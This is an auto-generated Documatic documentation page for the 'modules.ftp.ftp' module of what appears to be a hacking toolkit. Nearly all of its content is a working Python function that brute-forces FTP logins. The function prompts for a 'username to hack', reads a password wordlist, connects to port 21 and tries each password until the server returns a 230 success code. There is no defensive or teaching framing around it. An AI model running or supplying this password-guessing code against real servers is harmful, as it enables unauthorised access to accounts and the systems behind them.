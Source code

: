 # Modules Ftp

[_Documentation generated by Documatic_](https://www.documatic.com)

<!---Documatic-section-Codebase Structure-start--->
## Codebase Structure

<!---Documatic-block-system_architecture-start--->
```mermaid
None
```
<!---Documatic-block-system_architecture-end--->

# #
<!---Documatic-section-Codebase Structure-end--->

<!---Documatic-section-modules.ftp.ftp-start--->
## [modules.ftp.ftp](6-modules_ftp.md#modules.ftp.ftp)

<!---Documatic-section-ftp-start--->
<!---Documatic-block-modules.ftp.ftp-start--->
<details>
	<summary><code>modules.ftp.ftp</code> code snippet</summary>

```python
def ftp(server):
    clear_scr()
    print('[*]Put the password file in the same directory.\n[*]The passwords should be on different lines.\n')
    passwords = ask_file().read_text().splitlines()
    username = input('Enter the username to hack(eg: admin, root): ')
    server = socket.gethostbyname(server)
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    except:
        return print('Unable to create Socket.')
    try:
        s.connect((server, 21))
    except:
        return print('Unable To Connect.')
    data = s.recv(1024)
    for password in passwords:
        s.send('USER '.encode() + username.encode() + '\r\n'.encode())
        data = s.recv(1024)
        s.send('PASS '.encode() + password.encode() + '\r\n'.encode())
        data = s.recv(1024).decode()
        print(data)
        print('[*] Tried: ' + password + '\n')
        if '230' in data:
            print('password found\n')
            return print('[*] Password is: ' + password)
        else:
            print('[*] ' + password + ' is incorrect')
    s.send('Quit\r\n'.encode())
    s.close
    print('No password Found. Try another word list or username.')
```
</details>
<!---Documatic-block-modules.ftp.ftp-end--->
<!---Documatic-section-ftp-end--->

# #
<!---Documatic-section-modules.ftp.ftp-end--->

[_Documentation generated by Documatic_](https://www.documatic.com)